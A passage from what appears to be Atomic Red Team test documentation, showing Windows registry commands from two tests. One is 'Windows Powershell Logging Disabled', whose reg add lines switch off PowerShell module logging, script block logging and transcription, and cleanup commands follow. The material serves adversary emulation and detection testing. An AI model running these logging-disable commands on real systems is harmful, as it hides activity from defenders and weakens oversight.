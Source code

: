**Supported Platforms:** Windows


**auto_generated_guid:** 795d3248-0394-4d4d-8e86-4e8df2a2693f






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg  add HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowInfoTip /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowCompColor /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowInfoTip /f >nul 2>&1
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowCompColor /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #32 - Windows Powershell Logging Disabled
Modify the registry of the currently logged in user using reg.exe via cmd console to disable Powershell Module Logging, Script Block Logging, Transcription and Script Execution
see https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.PowerShell::EnableModuleLogging

**Supported Platforms:** Windows


**auto_generated_guid:** 95b25212-91a7-42ff-9613-124aca6845a8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging /v EnableModuleLogging /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging /v EnableScriptBlockLogging /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableTranscripting /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell /v EnableScripts /t REG_DWORD /d 0 /f
REM do a little cleanup immediately to avoid execution issues with later tests
reg delete HKCU\Software\Policies\Microsoft\Windows\PowerShell /v EnableScripts /f >nul 2>&1
```
